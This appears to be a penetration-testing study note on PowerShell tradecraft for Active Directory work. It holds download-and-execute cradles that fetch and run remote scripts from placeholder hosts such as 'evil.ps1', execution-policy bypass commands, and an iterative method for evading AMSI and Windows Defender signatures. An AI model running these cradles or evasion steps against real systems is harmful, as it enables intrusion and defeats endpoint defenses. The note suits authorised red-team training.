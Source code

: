 - PowerShell is NOT powershell.exe. It is the System.Management.Automation.dll
### PowerShell Scripts and Modules
- Load a PowerShell script using dot sourcing
```
C:\AD\Tools\PowerView.ps1
```
- A module (or a script) can be imported with:
```
Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
```
- All the commands in a module can be listed with:
```
Get-Command -Module <modulename>
```
- Download execute cradle
```
#This will run from memory instaed of disk
iex (New-Object Net.WebClient).DownloadString('https://webserver/payload.ps1')
```

```
$ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.230.1/evil.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response
```

```
#PSv3 onwards 
iex (iwr 'http://192.168.230.1/evil.ps1')
```

```
$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send();iex $h.responseText
```

```
$wr = [System.NET.WebRequest]::Create("http://192.168.230.1/evil.ps1")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```
### PowerShell Detections
- System-wide transcription
- Script Block logging
- AntiMalware Scan Interface (AMSI) 
	- Regardless of how we run a script (from memory or disk or any menas), right before execution it will pick up the content and show it to the AV
- Constrained Language Mode (CLM) - Integrated with Applocker and WDAC (Device Guard)

### Execution Policy
- It is NOT a security measure, it is present to prevent user from accidently executing scripts.
- Several ways to bypass
```
powershell -ExecutionPolicy bypass
powershell -c <cmd>
powershell -encodedcommand
$env:PSExecutionPolicyPreference="bypass"
```

### Bypassing PowerShell Security
- We will use [Invisi-Shell](https://github.com/OmerYa/Invisi-Shell) for bypassing the security controls in PowerShell
- Using Invisi-Shell
	- With admin privileges:
	```
	RunWithPathAsAdmin.bat
	```
	- With non-admin privileges:
	```
	RunWithRegistryNonAdmin.bat
	```
	- Type exit from the new PowerShell session to complete the clean-up.

### Bypassing AV Signatures for PowerShell
- We can always load scripts in memory and avoid detection using AMSI bypass.
- We can use the [AMSITrigger](https://github.com/RythmStick/AMSITrigger) or [DefenderCheck](https://github.com/t3hbb/DefenderCheck) to identify code and strings from a binary or script that Windows Defender may flag.
- Simply provide path to the script file to scan it:
```
AmsiTrigger_x64.exe -i C:\AD\Tools\Invoke-PowerShellTcp_Detected.ps1
DefenderCheck.exe PowerUp.ps1
```
- For full obfuscation of PowerShell scripts, see [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)
- Steps to avoid signature based detection are pretty simple:
	- Scan using AMSITrigger
	- Modify the detected code snippet
	- Rescan using AMSITrigger
	- Repeat the steps 2 & 3 till we get a result as “AMSI_RESULT_NOT_DETECTED” or “Blank”
